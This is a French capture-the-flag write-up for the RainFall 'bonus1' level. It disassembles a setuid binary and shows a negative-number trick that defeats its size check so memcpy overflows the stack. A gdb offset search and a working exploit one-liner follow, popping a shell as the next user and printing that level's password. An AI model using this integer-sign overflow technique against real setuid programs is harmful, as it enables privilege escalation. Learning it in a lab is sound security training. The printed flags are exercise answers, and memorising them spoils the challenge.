 # BONUS 1

### Reconnaissance

On se connecte au level9 avec le password : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

Nous trouvons un binaire:
```
bonus1@192.168.56.102's password: 
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
bonus1@RainFall:~$ ls 
bonus1
bonus1@RainFall:~$ file bonus1 
bonus1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x5af8fd13428afc6d05de1abfa9d7e7621df174c7, not stripped
```

On analyse le binaire avec r2 et gdb:
```
[0x08048370]> pdf@main,
            ; DATA XREF from entry0 @ 0x8048387
┌ 129: int main (char **str);
│           ; arg char **str @ ebp+0xc
│           ; var void *s2 @ esp+0x4
│           ; var size_t n @ esp+0x8
│           ; var void *s1 @ esp+0x14
│           ; var signed int var_8h @ esp+0x3c
│           0x08048424      55             push ebp
│           0x08048425      89e5           mov ebp, esp
│           0x08048427      83e4f0         and esp, 0xfffffff0
│           0x0804842a      83ec40         sub esp, 0x40
│           0x0804842d      8b450c         mov eax, dword [str]
│           0x08048430      83c004         add eax, 4
│           0x08048433      8b00           mov eax, dword [eax]
│           0x08048435      890424         mov dword [esp], eax        ; const char *str
│           0x08048438      e823ffffff     call sym.imp.atoi           ; int atoi(const char *str)
│           0x0804843d      8944243c       mov dword [var_8h], eax
│           0x08048441      837c243c09     cmp dword [var_8h], 9
│       ┌─< 0x08048446      7e07           jle 0x804844f
│       │   0x08048448      b801000000     mov eax, 1
│      ┌──< 0x0804844d      eb54           jmp 0x80484a3
│      ││   ; CODE XREF from main @ 0x8048446
│      │└─> 0x0804844f      8b44243c       mov eax, dword [var_8h]
│      │    0x08048453      8d0c85000000.  lea ecx, dword [eax*4]
│      │    0x0804845a      8b450c         mov eax, dword [str]
│      │    0x0804845d      83c008         add eax, 8
│      │    0x08048460      8b00           mov eax, dword [eax]
│      │    0x08048462      89c2           mov edx, eax
│      │    0x08048464      8d442414       lea eax, dword [s1]
│      │    0x08048468      894c2408       mov dword [n], ecx          ; size_t n
│      │    0x0804846c      89542404       mov dword [s2], edx         ; const void *s2
│      │    0x08048470      890424         mov dword [esp], eax        ; void *s1
│      │    0x08048473      e8a8feffff     call sym.imp.memcpy         ; void *memcpy(void *s1, const void *s2, size_t n)
│      │    0x08048478      817c243c464c.  cmp dword [var_8h], 0x574f4c46
│      │┌─< 0x08048480      751c           jne 0x804849e
│      ││   0x08048482      c74424080000.  mov dword [n], 0
│      ││   0x0804848a      c74424048085.  mov dword [s2], 0x8048580   ; [0x8048580:4]=0x2f006873
│      ││   0x08048492      c70424838504.  mov dword [esp], str.bin_sh ; [0x8048583:4]=0x6e69622f ; "/bin/sh"
│      ││   0x08048499      e8b2feffff     call sym.imp.execl
│      ││   ; CODE XREF from main @ 0x8048480
│      │└─> 0x0804849e      b800000000     mov eax, 0
│      │    ; CODE XREF from main @ 0x804844d
│      └──> 0x080484a3      c9             leave
└           0x080484a4      c3             ret
```

Le programme attend 2 arguments:

- le premier arguments est envoyé en paramètre d'atoi, comparé a 9 et l'opérateur <a href="http://unixwiz.net/techtips/x86-jumps.html">`jle`</a>  nous expulse a la fin du programme si le resultat est supérieur a 9.

- le second argument est utilisé si la première condition est rempli. Il fait un `memcpy` avec en paramère `size_t n` = argv[1] * 4:

Enfin une comparason est faite entre le retour du atoi et la valeur `0x574f4c46`. Si cette condition est remplie, on ouvre un shell.

`memcpy` est une fonction dangereuse et succeptible de creér un buffer overflow. Si on respecte le comportement attendu du programme, on arrive a une taille max de copie de 36 (9 * 4). Ce qui n'est pas suffisant pour re ecrire l'EIP ...

Que ce passe t'il si on rentre un nombre négatif ?


### Exploitation

Avec un nombre négatif, on a une valeur completement absurde en paramètre du memcpy. En testant différentes valeur (en partant du int mini), on arrive a voir des valeurs "controllé":
```
gdb-peda$ r "-2147483627" $(python -c 'print "A" * 200')
[...]
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
EAX: 0xffff3534 --> 0xffffffff 
EBX: 0x0 
ECX: 0x54 ('T')
EDX: 0xffff3805 ('A' <repeats 200 times>...)
ESI: 0xf7fae000 --> 0x1e4d6c 
EDI: 0xf7fae000 --> 0x1e4d6c 
EBP: 0xffff3568 --> 0x0 
ESP: 0xffff3520 --> 0xffff3534 --> 0xffffffff 
EIP: 0x8048473 (<main+79>:      call   0x8048320 <memcpy@plt>)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048468 <main+68>: mov    DWORD PTR [esp+0x8],ecx
   0x804846c <main+72>: mov    DWORD PTR [esp+0x4],edx
   0x8048470 <main+76>: mov    DWORD PTR [esp],eax
=> 0x8048473 <main+79>: call   0x8048320 <memcpy@plt>
   0x8048478 <main+84>: cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x8048480 <main+92>: jne    0x804849e <main+122>
   0x8048482 <main+94>: mov    DWORD PTR [esp+0x8],0x0
   0x804848a <main+102>:        mov    DWORD PTR [esp+0x4],0x8048580
Guessed arguments:
arg[0]: 0xffff3534 --> 0xffffffff 
arg[1]: 0xffff3805 ('A' <repeats 200 times>...)
arg[2]: 0x54 ('T')
[------------------------------------stack-------------------------------------]
0000| 0xffff3520 --> 0xffff3534 --> 0xffffffff 
0004| 0xffff3524 --> 0xffff3805 ('A' <repeats 200 times>...)
0008| 0xffff3528 --> 0x54 ('T')
0012| 0xffff352c --> 0x80482fd (<_init+41>:     add    esp,0x8)
0016| 0xffff3530 --> 0xf7fae3fc --> 0xf7fafa40 --> 0x0 
0020| 0xffff3534 --> 0xffffffff 
0024| 0xffff3538 --> 0x8049764 --> 0x8049698 --> 0x1 
0028| 0xffff353c --> 0x80484d1 (<__libc_csu_init+33>:   lea    eax,[ebx-0xe0])
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x08048473 in main ()
[...]
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
ou 0x54 = 84.
Et c'est parfait, on trouve nos "A" a la valeur du segfault.

Maintenant il faut trouvé a qu'elle moment on re ecrit sur l'EIP:
```
gdb-peda$ pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb-peda$ r "-2147483627" $(python -c 'print "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"')
Starting program: /home/yoginet/Documents/101/rainfall/bonus1/bonus1 "-2147483627" $(python -c 'print "AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL"')
[...]
Stopped reason: SIGSEGV
0x41416341 in ?? ()
gdb-peda$ pattern offset 0x41416341
1094804289 found at offset: 56
```

On converti notre adresse un peu avant le exec:
```
>>> from pwn import *
>>> p32(0x08048482)
'\x82\x84\x04\x08'
```

Et enfin:
```
gdb-peda$ r "-2147483627" $(python -c 'print "A" * 56 + "\x82\x84\x04\x08"')
[...]
gdb-peda$ c
Continuing.
process 10667 is executing new program: /usr/bin/dash
```

On a plus qu'a tester sur notre vm:

```
bonus1@RainFall:~$ ./bonus1 "-2147483627" $(python -c 'print "A" * 56 + "\x82\x84\x04\x08"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ whoami
bonus2
```


Enjoy :)
